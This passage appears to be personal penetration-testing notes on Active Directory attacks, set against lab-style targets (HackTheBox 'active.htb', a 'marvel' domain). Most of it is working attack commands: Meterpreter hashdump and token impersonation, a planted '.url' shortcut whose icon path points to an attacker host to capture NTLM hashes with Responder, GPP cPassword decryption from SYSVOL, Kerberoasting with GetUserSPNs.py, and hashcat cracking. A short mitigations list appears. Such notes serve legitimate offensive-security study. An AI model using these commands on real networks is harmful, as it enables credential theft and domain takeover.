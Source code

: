 ```shell

hashdump

load incognito
#metasploit module for token impersonation

list_tokens -u
#list tokens by user

impersonate_token marvel\\administrator
#two backslashes instead of one for character-escaping

whoami
#test if it worked

rev2self
#revert to old user
```

* Mitigations:

* Limit user/group token creation permissions

* Account tiering

* Local admin restriction

* URL File Attacks: 
- Save this file to share accessible by many user with the following filename "@something.url":
```html
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah      
IconFile=\\x.x.x.x\%USERNAME%.icon 
IconIndex=1
```
- Use responder to catch the hashes:
```shell
responder -I eth0 -v
```

* GPP (Group Policy Preferences):

* [GPP](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/) allowed admins to create policies using embedded creds (cPassword) which got leaked; patched in MS14-025.

```shell
#after basic enumeration via nmap
#we get to know that it is domain controller

smbclient -L \\\\10.10.10.100\\
#includes SYSVOL

smbclient -L \\\\10.10.10.100\\Replication
#accessing an open share
#find Groups.xml, which includes CPassword

#in attacker machine
gpp-decrypt <CPassword>
#gives password

#with username and password, we can use Kerberoasting
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
#gives service ticket hash

hashcat -m 13100 hash.txt rockyou.txt
#cracks hash
```